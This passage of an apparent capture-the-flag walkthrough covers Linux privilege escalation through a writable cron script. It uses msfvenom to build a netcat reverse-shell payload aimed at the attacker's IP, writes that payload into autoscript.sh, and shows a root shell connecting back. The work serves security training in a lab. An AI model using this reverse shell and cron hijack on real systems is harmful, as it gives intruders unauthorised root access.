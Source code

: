 No answer needed

**#2 Now, on our host machine- let's create a payload for our cron exploit using msfvenom.**

No answer needed

**#3 What is the flag to specify a payload in msfvenom?**

run the following command to see flags
```bash
root@kali:~# msfvenom -h
```

Answer: -p

**#4 Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"**

```bash
root@kali:~# msfvenom -p cmd/unix/reverse_netcat lhost=10.10.25.205 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 102 bytes
mkfifo /tmp/qdrujcq; nc 10.10.25.205 8888 0</tmp/qdrujcq | /bin/sh >/tmp/qdrujcq 2>&1; rm /tmp/qdrujcq
```

No answer needed

**#5 What directory is the "autoscript.sh" under?**

```bash
user4@polobox:~$ find / -name  autoscript.sh -print 2>/dev/null
/home/user4/Desktop/autoscript.sh
```

Answer: /home/user4/Desktop/

**#6 Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"**

```bash
user4@polobox:~/Desktop$ echo "mkfifo /tmp/qdrujcq; nc 10.10.25.205 8888 0</tmp/qdrujcq | /bin/sh >/tmp/qdrujcq 2>&1; rm /tmp/qdrujcq" > /home/user4/Desktop/autoscript.sh
```

No answer needed

**#7 After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvp 8888" and wait for our shell to land!**

```bash
root@kali:~# nc -lvp 8888
listening on [any] 8888 ...
```

No answer needed

**#8 After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!**

```bash
connect to [10.10.25.205] from ip-10-10-255-0.eu-west-1.compute.internal [10.10.255.0] 48574
whoami
root
```
